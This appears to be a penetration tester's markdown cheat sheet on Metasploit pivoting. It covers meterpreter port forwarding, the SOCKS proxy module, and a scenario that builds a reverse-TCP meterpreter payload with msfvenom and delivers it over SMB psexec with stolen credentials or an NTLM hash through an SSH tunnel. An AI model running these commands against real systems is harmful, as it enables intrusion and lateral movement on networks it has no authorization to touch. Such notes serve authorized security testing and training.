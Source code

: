 # Metasploit

## 01 - Portfwd

### 1.1 - Help Menu

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
```

### 1.2 - Usage

`meterpreter > portfwd <add | delete> -l <local_port> -p <bind_port> -r <target_IP> -R -L <attacker_IP>`

## 02 - SOCKS Proxy

### 2.1 - Usage

```
msf > use auxiliary/server/socks_proxy

msf auxiliary(server/socks_proxy) > options 

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  1080             yes       The port to listen on
   VERSION  5                yes       The SOCKS version to use (Accepted: 4a, 5)


   When VERSION is 5:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   USERNAME                   no        Proxy username for SOCKS5 listener


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server



View the full module info with the info, or info -d command.

msf auxiliary(server/socks_proxy) > set version <4a | 5>

msf auxiliary(server/socks_proxy) > set srvhost <IP>

msf auxiliary(server/socks_proxy) > set srvport <PORT>

msf auxiliary(server/socks_proxy) > set username <username>

msf auxiliary(server/socks_proxy) > set password <password>

msf auxiliary(server/socks_proxy) > run -j
```

Refer to [[Proxychains]] section

### 2.2 - Scenarios

#### 2.2.1 - Dynamic Port Forwarding via Metasploit Framework

TODO: Provide screenshots and a graph illustration

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<SSH_IP> lport=4343 -f exe-service -o shellsvc.exe

$ ssh -R 4343:127.0.0.1:8884 <username>@<IP>

msf exploit(windows/smb/psexec) > set rhosts <IP>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass <password | ntlm_hash>

msf exploit(windows/smb/psexec) > set lhost <SSH_IP>

msf exploit(windows/smb/psexec) > set lport 4343

msf exploit(windows/smb/psexec) > set proxies socks4:127.0.0.1:1080

msf exploit(windows/smb/psexec) > set reverseallowproxy true

msf exploit(windows/smb/psexec) > set reverselistenerbindaddress 127.0.0.1

msf exploit(windows/smb/psexec) > set reverselistenerbindport 8884

msf exploit(windows/smb/psexec) > set exe::custom /path/to/shellsvc.exe
```

---
## References

- [Using Metasploit Routing and Proxychains for Pivoting](https://infinitelogins.com/2021/02/20/using-metasploit-routing-and-proxychains-for-pivoting/)

- [Basic Pivoting Techniques: SSH Dynamic Port Forwarding + Metasploit over SSH](https://www.youtube.com/watch?v=6gqwxGE4o8E)

- [SlayerLabs Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)